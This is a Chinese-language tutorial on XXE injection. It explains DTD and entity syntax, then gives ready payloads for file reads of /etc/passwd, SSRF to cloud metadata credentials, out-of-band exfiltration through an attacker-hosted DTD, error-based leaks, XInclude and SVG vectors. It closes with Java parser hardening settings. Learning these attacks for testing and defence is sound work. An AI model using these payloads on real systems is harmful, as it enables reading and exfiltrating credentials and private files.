








- [XXE 外部实体注入漏洞](#xxe-外部实体注入漏洞)
  - [DTD](#dtd)
  - [XML 实体](#xml-实体)
    - [外部实体注入](#外部实体注入)
  - [Expolit](#expolit)
    - [File Read](#file-read)
    - [SSRF](#ssrf)
    - [Port Scan](#port-scan)
    - [RCE](#rce)
    - [DDOS](#ddos)
  - [Blind XXE](#blind-xxe)
    - [Data out-of-band](#data-out-of-band)
    - [报错回显](#报错回显)
    - [滥用本地DTD](#滥用本地dtd)
  - [不常见的XXE攻击面](#不常见的xxe攻击面)
    - [XInclude attacks](#xinclude-attacks)
    - [文件上传](#文件上传)
    - [修改content type](#修改content-type)
  - [XXE Tools](#xxe-tools)
  - [修复方案](#修复方案)
  - [参考资料](#参考资料)
# XXE 外部实体注入漏洞
## DTD
文档类型定义（DTD）可定义合法的XML文档构建模块。它使用一系列合法的元素来定义文档的结构。  
内部的 DOCTYPE 声明:
```xml
<!DOCTYPE 根元素 [元素声明]>
```
DTD 可被成行地声明于 XML 文档中，也可作为一个外部引用。  
外部声明:
```xml
<!DOCTYPE 根元素 SYSTEM "文件名">
```
## XML 实体
XML实体即XML数据格式中用户自定义的变量,其必须在DTD中定义申明，可以在文档中的其他位置引用该变量的值.参数实体用%实体名称申明,引用时也用%实体名称,参数实体只能在DTD中申明，DTD中引用.其余实体直接用实体名称申明,引用时用&实体名称,其余实体只能在DTD中申明,可在xml文档中引用。 

* 内部实体  

普通的变量声明,key-value
```xml
<!ENTITY 实体名称 "实体的值">=
```
* 外部实体  


外部实体即该变量的定义处于DTD外部,所以其在DTD内部的值为一个URI,使XML解析器从指定的URI去获取其具体定义.
```xml
<!ENTITY 实体名称 SYSTEM "URI">
``` 
* 参数实体

参数实体可以理解为DTD内部的局部变量.
```xml
<!ENTITY % 实体名称 "实体的值">
``` 
在某些时候,无法在xml数据结构中使用实体,这时候可以使用参数实体来触发外部实体解析.   
  
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://je1ulpppm7ftdo6vmgcv1lkg57bxzm.oastify.com"> %xxe; ]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>s'l
```
### 外部实体注入
XXE的原理也是因为DTD外部实体的特性导致可以文件读取,SSRF,RCE等.  
在不同的语言中,URI支持的外部实体协议有所不同.  
  
在php中,某些协议需要特定的扩展支持.  
  
同时在php中对xml数据支持使用的是libxml库,而在2.9.1版本之后已经默认不解析外部实体.
## Expolit
### File Read
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>  
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

### SSRF
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

### Port Scan
方式与SSRF相同,根据响应来判断IP是否存活,端口是否开放.
### RCE
需要php安装expect扩展.
### DDOS
## Blind XXE
常规XXE中可以直接得到XML解析的结果,而Blind XXE即响应中没有相应的结果,无法判断执行情况.
### Data out-of-band
数据带外通道可以在没有回显的情况下通过其它方式将解析结果显示出来.
1. 首先在恶意服务器上托管一个DTD文件
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```  
2. 插入如下payload加载该外部DTD文件
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```
当xml解析时  
1. 首先解析xxe参数实体,这时从恶意服务器请求加载恶意的dtd文件.
2. 解析远程dtd文件时,首先触发解析`%eval`参数实体.
3. 在`%eval`参数实体的定义中,获取到`%exfiltrate`实体的定义.
4. 解析`%exfiltrate`参数实体,其定义为请求恶意服务器地址,其中包含x参数参数实体`%file`的值.
5. 而`%file`参数实体的定义为读取到的/etc/passwd的值,这时在恶意服务器上的请求日志中便能得到该文件的内容.  

有时候因为/etc/passwd中的特殊字符(换行等)会导致文件读取失败,可以考虑换成/etc/homename.
### 报错回显
这种方式通过构造一个错误的解析数据,使得解析器报错并且将想要的结果包含在错误信息中,如果服务器会返回错误信息的话则可以从报错信息中获取相应数据.
1. 在服务上托管一个会产生解析错误的dtd文档.
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///xxx/%file;'>">
%eval;
%exfil;
```  
可以看到在`exfil`实体的定义中,其file协议读取文件时包含了一个不存在的路径,这会导致一个报错.
2. 插入如下payload
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a10000c03cb9a04c0c590d401bd00c7.exploit-server.net/exploit.dtd"> %xxe;]>
```
因为路径错误最终会将整个路径作为错误信息返回,其中则包含了`%file`实体的内容.  

### 滥用本地DTD
报错和OOB通道都是利用的外部DTD文件,但如果只能使用内部DTD的话,则无法进行利用,因为在外部DTD中,是可以在参数实体中嵌套其它参数实体的,而在内部实体中则无法进行嵌套.  
然而当一个DTD文件中同时存在内部DTD和外部DTD声明时,那么内部的DTD是可以重新定义外部DTD中的实体的.那么则可以通过滥用一些本地的DTD来触发错误解析得到敏感数据.

1. 假设本地存在一个dtd文件,其中定义了一个ISOamso实体.
2. 插入如下payload

```xml
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```  
通过在payload中的内部DTD重新定义外部docbookx.dtd中的ISOamso实体,将其定义为报错回显的payload,那么在加载本地docbookx.dtd中的ISOamso时同样会触发路径错误从而暴露错误信息得到敏感数据.   

## 不常见的XXE攻击面
除了请求中的XML数据格式可能存在XXE,还有一些不明显的功能也可能造成XXE.
### XInclude attacks
有些时候,用户提交的数据可能只是一个XML数据的一部分,即无法控制整个XML文档,则无法在`DOCTYPE`中定义实体进行XXE.
而XInclude是XML定义的一部分,它允许从子文件中建立一个XML文档。可以把XInclude攻击放在XML文档中的任何数据值中，因此,可以在只控制被放入服务器端XML文档的单一数据项的情况下进行XXE.
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```  
首先需要先引入XInclude的命名空间,在href属性指定要包含的文件.  

### 文件上传
除了常见的XML,DOC文件上传可能触发XXE以外,svg文件也可能,在大部分上传图片时,后端图片处理库往往也解析svg文件,而svg同时也是XML结构的文件.  
svg文件内容:  
```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
### 修改content type
有些后端会根据content type来解析不同的数据包,修改content type为xml格式时,同样也能解析数据.
```http
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
修改为  
```http
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
## XXE Tools
[oxml_xxe](https://github.com/BuffaloWill/oxml_xxe)
## 修复方案
配置相关FEATURE来禁用外部实体。
```java
"http://apache.org/xml/features/disallow-doctype-decl", true //禁止DOCTYPE 声明
"http://apache.org/xml/features/nonvalidating/load-external-dtd", false //禁止导入外部dtd文件
"http://xml.org/sax/features/external-general-entities", false //禁止外部普通实体
"http://xml.org/sax/features/external-parameter-entities", false //禁止外部参数实体
```
```java
XMLConstants.ACCESS_EXTERNAL_DTD, ""
XMLConstants.ACCESS_EXTERNAL_STYLESHEET, ""
```
## 参考资料
https://portswigger.net/web-security/xxe